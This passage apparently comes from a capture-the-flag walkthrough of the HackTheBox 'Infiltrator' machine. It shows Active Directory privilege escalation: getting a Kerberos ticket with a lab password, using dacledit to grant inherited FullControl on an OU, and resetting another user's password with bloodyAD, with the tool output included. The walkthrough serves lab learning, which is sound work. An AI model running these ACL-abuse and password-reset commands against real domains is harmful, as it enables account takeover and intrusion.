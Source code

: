 Let's following the hints of bloodhound, 
First, change `d.anderson's` control permission for the MARKETING DIGITAL group to FullControl, and obtain `d.anderson`'s ticket.
```
#### Generic Descendent Object Takeover

The simplest and most straight forward way to abuse control of the OU is to apply a GenericAll ACE on the OU that will inherit down to all object types. This can be done using Impacket's dacledit (cf. "grant rights" reference for the link).

dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'JKHOLER' -target-dn 'OUDistinguishedName' 'domain'/'user':'password'

```
In this place, the smb services of `d.anderson` could not be login successfully, so we have to get the TGT ticket firstly
```
impacket-getTGT 'infiltrator.htb/d.anderson:WAT?watismypass!' -dc-ip 10.10.11.31

export KRB5CCNAME=d.anderson.ccache

dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'd.anderson' -target-dn 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' 'infiltrator.htb/d.anderson' -k -no-pass -dc-ip 10.10.11.31

/home/wither/.local/bin/dacledit.py:876: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250417-141518.bak
[*] DACL modified successfully!

PS:always remember to Synchronize time with the target domain
```

Then we can continue to change the password `e.rodriguez`
```
bloodyAD --host "dc01.infiltrator.htb" -d "infiltrator.htb" --kerberos --dc-ip 10.10.11.31 -u "d.anderson" -p "WAT?watismypass\!" set password "e.rodriguez" "12345678"

msldap.commons.exceptions.LDAPModifyException: New password doesn't match the complexity: The password must contains characters from three of the following categories: Uppercase, Lowercase, Digits, Special, Unicode Alphabetic not included in Uppercase and Lowercase

We have to change another complex password for this account

bloodyAD --host "dc01.infiltrator.htb" -d "infiltrator.htb" --kerberos --dc-ip 10.10.11.31 -u "d.anderson" -p "WAT?watismypass\!" set password "e.rodriguez" "@wither123456"
```

Then let's continue to check the user's path
![](images/Pasted%20image%2020250417141956.png)
`E.rodriguez` can add itself into the group `Chief marketing`